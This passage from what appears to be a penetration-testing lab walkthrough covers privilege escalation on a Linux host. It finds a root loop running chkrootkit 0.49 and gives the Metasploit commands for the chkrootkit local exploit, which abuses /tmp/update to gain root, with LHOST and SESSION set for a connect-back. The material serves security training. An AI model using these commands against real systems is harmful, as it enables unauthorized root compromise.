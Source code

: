 ```bash
cat /bin/check-down

        #!/bin/bash
        while :
        do
                /usr/local/bin/chkrootkit/chkrootkit -x > /dev/null 2>&1
                sleep 60
        done
```

* Check `chkrootkit` version

```bash
chkrootkit -V
	chkrootkit version 0.49
```

* Background both the shell and the meterpreter session with `CTRL+Z`

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

* The technique will depend on the version of the target Linux Kernel and the distribution version.
  * It is necessary to manually enumerate a privesc vulnerable program, `Chkrootkit v.0.49` in this case

```bash
search chkrootkit
use exploit/unix/local/chkrootkit
info
# Description:
#   Chkrootkit before 0.50 will run any executable file named 
#   /tmp/update as root, allowing a trivial privilege escalation. 
#   WfsDelay is set to 24h, since this is how often a chkrootkit scan is 
#   scheduled by default.
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST eth1
sessions # check the used ports
exploit
```

<figure><img src="../../../../../.gitbook/assets/image (20) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
